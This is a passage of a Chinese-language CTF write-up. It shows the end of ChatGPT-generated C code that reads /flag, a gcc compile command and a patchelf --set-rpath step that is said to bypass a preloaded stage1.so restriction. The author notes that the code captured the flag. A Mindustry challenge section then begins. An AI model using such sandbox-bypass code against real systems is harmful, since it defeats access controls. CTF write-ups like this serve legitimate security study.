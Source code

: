 ````
    char buf[1024];
    if (fgets(buf, sizeof(buf), fp) != NULL) {
        printf("/flag content: %s", buf);
    } else {
        fprintf(stderr, "Cannot read from /flag\n");
    }

    fclose(fp);
    dlclose(handle);
}

int main() {
    printf("If you see this message, the constructor has finished executing.\n");
    return 0;
}
```

编译这个程序：

```bash
gcc -o myprogram myprogram.c -ldl
```

然后使用`patchelf`修改ELF文件：

```bash
patchelf --set-rpath /nonexistent myprogram
```

这样，当您上传并执行这个ELF文件时，它应该能够绕过`stage1.so`的限制，直接打开并读取`/flag`文件的内容。
````

ChatGPT的思路应该是制定了一个不存在动态链接器的搜索路径（本质应该和`LD_PRELOAD`类似），这样程序就会无视现有的`LD_PRELOAD`里的so文件了。

没想到把ChatGPT的代码交上去之后就一次拿到flag了。

## 异星歧途

下载游戏玩一玩之后，可以注意到每8个开关都是由一个[processor](https://mindustry-unofficial.fandom.com/wiki/Guide:_Logic_Basics)控制的。
